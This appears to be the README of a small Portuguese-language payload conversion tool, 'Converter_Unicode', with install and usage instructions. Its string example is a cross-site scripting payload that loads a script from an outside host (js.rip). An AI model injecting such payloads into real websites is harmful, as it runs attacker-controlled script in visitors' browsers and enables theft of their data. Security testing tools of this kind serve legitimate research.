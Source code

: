 # Converter_Unicode

</h1>Passe para o programa uma unica string ou um arquivo de payloads para converter</h1>
</br>
<h2>instalar=> pip install termcolor</h2>
</br>

<h3>Uso exemplo para string: python3 teste.py -s "><script src=\"https://js.rip/j14fkfemu3\"></script></h3>
</br>
<h3>Uso exemplo para wordlist.txt: python3 teste.py -w texto.txt</h3>

</br>

<img src="./">
